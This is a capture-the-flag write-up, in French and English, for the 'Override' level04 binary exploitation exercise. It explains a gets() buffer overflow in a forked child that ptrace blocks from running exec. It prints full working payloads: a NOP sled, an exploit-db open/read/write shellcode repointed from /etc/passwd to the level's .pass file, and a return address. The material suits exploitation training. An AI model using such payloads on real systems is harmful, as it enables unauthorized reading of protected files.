


# Override / Level04

## Lire le fichier level04

On se remet sur dogbolt pour celui la. Le code est dans source.c.


## Vulnerabilite


We have a segfault in the first child because the function gets is not protect.

```
run <<< $(python -c 'print "A" * 164')
Breakpoint 1, 0x08048787 in main ()
(gdb) x/100x $eax
0xb7f:	Cannot access memory at address 0xb7f
(gdb) info registers
eax            0xb7f	2943
```

0xb7f = 2943 (segfault)

Malheuresement si on utilise un shellcode basic exec /bin/sh on tombe sur 
no exec for you()

Cela est du parce que ptrace check si exec est utlise , si oui il renvoie 11 et du coup d apres la source.c l'exe est kill , donc on doit utiliser un autre shellcode:

ce shellcode permet de ouvrir de lire et de write le fichier
https://www.exploit-db.com/exploits/41635

$(python -c 'print "\x90" * 51 + "\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x31\xc0\x99\xb0\x05\xcd\x80\x89\xc7\xb2\xff\x89\xe1\x89\xfb\xb0\x03\xcd\x80\xb3\x01\xb0\x04\xcd\x80\xfe\xca\x80\xfa\x01\x74\x02\xeb\xe9" + "A" * 51 + "\x5c\xd6\xff\xff"* 1')



Cela marche sur gdb!


Il faut juste maintenant changer /etc/passwd en /home/users/level04/.pass


/etc/passwd => sswd//pa//etc => \x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63

/home//users//level04//.pass => pass4//.vel0//leserse//u/hom  => \x68\x70\x61\x73\x73\x68\x35\x2f\x2f\x2e\x68\x76\x65\x6c\x30\x68\x2f\x2f\x6c\x65\x68\x73\x65\x72\x73\x68\x65\x2f\x2f\x75\x68\x2f\x68\x6f\x6d

Petite description de ce qui se passe.
En asm, on utilise une instruction ici \x68 (push), puis on doit mettre 4 bytes par 4 bytes mais a l'envers. Donc cette partie du shellcode ci dessous peut se traduire par:
\x68\x70\x61\x73\x73 : push "pass"
\x68\x35\x2f\x2f\x2e : push "4//."
etc...

Hors gdb, en quelques try sur des adresses on tombe sur le flag.



>(python -c 'print "\x90" * 51 + "\x31\xc9\x51\x68\x70\x61\x73\x73\x68\x35\x2f\x2f\x2e\x68\x76\x65\x6c\x30\x68\x2f\x2f\x6c\x65\x68\x73\x65\x72\x73\x68\x65\x2f\x2f\x75\x68\x2f\x68\x6f\x6d\x89\xe3\x31\xc0\x99\xb0\x05\xcd\x80\x89\xc7\xb2\xff\x89\xe1\x89\xfb\xb0\x03\xcd\x80\xb3\x01\xb0\x04\xcd\x80\xfe\xca\x80\xfa\x01\x74\x02\xeb\xe9" + "\x90" * 31 + "\x90\xd6\xff\xff"* 1') | ./leve04